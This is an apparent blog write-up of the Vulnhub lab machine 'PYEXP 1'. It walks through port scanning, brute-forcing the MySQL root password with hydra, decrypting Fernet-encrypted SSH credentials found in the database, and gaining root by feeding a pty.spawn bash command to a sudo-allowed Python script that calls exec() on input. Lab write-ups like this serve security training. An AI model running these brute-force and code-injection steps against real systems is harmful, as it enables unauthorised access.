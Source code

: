```yaml
---
title: PYEXP 1
author: am-a-circle
date: 2021-04-18 12:00:00 +0800
categories:  [Vulnhub]
tags: [gpg,nfs]
math: false
mermaid: false
---
```




## Overview

"PYEXP: 1" is an interesting box as it teaches the concept of  brute-forcing,database enumeration and exploiting dangerous python function.

|Box Difficulty| Link|
|--|--|
| Medium| [Vulnhub Link](https://www.vulnhub.com/entry/pyexp-1,534/) |

## Recon

As usual, the standard masscan follow by nmap.
```bash
# masscan -p1-65535  192.168.205.118  --rate=1000 -e tun0
Discovered open port 3306/tcp on 192.168.205.118
Discovered open port 1337/tcp on 192.168.205.118                 
```


```bash
└─# nmap -sV -sC -p 1337,3306 -oN /opt/OSCP_PlayG/PyExp/nmap_full.txt 192.168.205.118

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 11:25 EDT                                                                                                           
Nmap scan report for 192.168.205.118
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: d5z)[o=~(GllWRri9}.i
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.69 seconds

```

From the output we can see that there is a SSH server on port 1337 and a MySQL service at port 3306. 
Honestly, there isn't much to work on so the only option I could think of was to brute-force MySQL for password.

## MYSQL - TCP 3306

Brute-forcing root password: 
```bash
└─# hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.205.118 mysql 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-17 11:45:00
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.205.118:3306/
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 14344228 to do in 1398:05h, 4 active
...
...
[STATUS] 174.00 tries/min, 8178 tries in 00:47h, 14336221 to do in 1373:13h, 4 active
[3306][mysql] host: 192.168.205.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
```

That took awhile but the result is that we obtain the root password for mysql. Let's enumerate the database for any credentials we can use to access the SSH server!



## Shell as Lucy

Enumerating the database:


```bash
└─# mysql --host 192.168.205.118 -u root -p                                                                                                                                                
Enter password:                                                                                                                                                                                    
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                                                        
Your MariaDB connection id is 22205                                                                                                                                                                
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10                                                                                                                                                
                                                                                                                                  
MariaDB [(none)]> show databases;                                                                                                                                                                  
+--------------------+                                                                                                                                                                             
| Database           |                                                                                                                                                                             
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.253 sec)

MariaDB [(none)]> use data;

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.270 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.282 sec)



```

After enumerating the database server there isn't much but the above.

As we can see from the above, there is a fernet table with the column name "cred" and "keyy" from the table name fernet.

A quick google about fernet leads me to **"fernet encryption"**
*:Fernet is a symmetric encryption method which makes sure that the message encrypted cannot be manipulated/read without the key.*

When inputting the Token and Key into the site here, [Fernet decryption!](https://asecuritysite.com/encryption/ferdecode)

We get the credentials below:
Decoded: lucy:wJ9`"Lemdv9[FEw-

Great ! Now we have a possible username and password! Let's try to SSH into the server
```bash
└─# ssh lucy@192.168.205.118 -p 1337                                                                                                                                                         
lucy@192.168.205.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy
```

With that we are now in the system running as lucy!

## Shell as Root

One of the first things i like to do is run beside running `linpeas.sh` is to run `sudo -l` to see if the current user is able to run any privilege commands which can be abused.
```bash
lucy@pyexp:/tmp$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Interestingly , we can run `/usr/bin/python2 /opt/exp.py` as root. A further look into the file reveals the below
```bash
lucy@pyexp:/tmp$ cat /opt/exp.py
uinput = raw_input('how are you?')
exec(uinput)

```
From the `exp.py` file above we can see that it takes a user input. But what is dangerous here is that the script uses the vulnerable `exec` function. 


Why is `exec` dangerous ? 
It is because it take strings and turn them into executable code!  A user could build a string so that it runs other Python functions to potentially erase all your data, expose your secret keys, dump your database, or perform other malicious actions. Since we can execute the file as a root user, the command executed will be as root. 


Thus a simple way to become root would be to use the python function to spawn a bash shell!

```bash
lucy@pyexp:/tmp$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import pty; pty.spawn("/bin/bash")
root@pyexp:/tmp# whoami
root
root@pyexp:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And we are root!

